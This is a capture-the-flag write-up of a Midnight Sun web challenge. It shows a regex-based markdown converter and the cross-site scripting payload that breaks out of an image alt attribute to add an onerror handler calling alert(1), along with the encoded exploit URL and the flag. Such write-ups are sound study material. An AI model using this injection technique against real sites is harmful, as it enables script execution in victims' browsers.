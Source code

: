 ```yaml
---
tags: ["xxs"]
---
```

# Challenge
> Someone told me to use a lib, but real developers rock regex one-liners.

This challenge provides a website that converts markdown to html for display.
The conversion code is implemented with a bunch of regex search-and-replaces.
The task here is to find input markdown that invokes `alert(1)` once converted to html.

```js
function markdown(text){
  text = text
  .replace(/[<]/g, '')
  .replace(/----/g,'<hr>')
  .replace(/> ?([^\n]+)/g, '<blockquote>$1</blockquote>')
  .replace(/\*\*([^*]+)\*\*/g, '<b>$1</b>')
  .replace(/__([^_]+)__/g, '<b>$1</b>')
  .replace(/\*([^\s][^*]+)\*/g, '<i>$1</i>')
  .replace(/\* ([^*]+)/g, '<li>$1</li>')
  .replace(/##### ([^#\n]+)/g, '<h5>$1</h5>')
  .replace(/#### ([^#\n]+)/g, '<h4>$1</h4>')
  .replace(/### ([^#\n]+)/g, '<h3>$1</h3>')
  .replace(/## ([^#\n]+)/g, '<h2>$1</h2>')
  .replace(/# ([^#\n]+)/g, '<h1>$1</h1>')
  .replace(/(?<!\()(https?:\/\/[a-zA-Z0-9./?#-]+)/g, '<a href="$1">$1</a>')
  .replace(/!\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#]+)\)/g, '<img src="$2" alt="$1"/>')
  .replace(/(?<!!)\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#-]+)\)/g, '<a href="$2">$1</a>')
  .replace(/`([^`]+)`/g, '<code>$1</code>')
  .replace(/```([^`]+)```/g, '<code>$1</code>')
  .replace(/\n/g, "<br>");

  return text;
}
```

# Solution

One of the regexes looks particularly scary:
```js
.replace(/!\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#]+)\)/g, '<img src="$2" alt="$1"/>')
```
The first capture group (the alt text) allows for all characters including quotes.
This can easily be used to insert custom attributes and invoke custom javascript:
```js
> markdown("![alt\" onerror=\"javascript:alert(1)](https://src)")
'<img src="https://src" alt="alt" onerror="javascript:alert(1)"/>'
```

http://marcodowno-01.play.midnightsunctf.se:3001/markdown?input=%21%5Balt%22%20onerror%3D%22javascript%3Aalert%281%29%5D%28https%3A%2F%2Fsrc%29

midnight{wh0_n33ds_libs_wh3n_U_g0t_reg3x?}
